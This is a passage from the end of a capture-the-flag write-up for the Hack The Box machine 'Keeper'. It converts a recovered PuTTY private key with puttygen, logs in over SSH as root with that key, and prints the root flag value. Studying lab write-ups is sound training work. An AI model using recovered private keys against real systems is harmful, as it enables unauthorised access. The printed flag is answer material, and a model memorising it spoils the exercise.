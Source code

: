 ```bash
┌──(bravosec㉿fsociety)-[~/htb/Keeper]
└─$ puttygen putty.key -O private-openssh -o id_rsa.key
```

## SSH as root

Ugh... fun box

```bash
┌──(bravosec㉿fsociety)-[~/htb/Keeper]
└─$ chmod 600 putty.key

┌──(bravosec㉿fsociety)-[~/htb/Keeper]
└─$ ssh root@keeper.htb -i id_rsa.key
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Thu Aug 17 14:21:58 2023 from 10.10.14.23
root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@keeper:~# cat root.txt
00c7ecbc8a98d52f52da8e2e9ac4934a
```

# Additional
---
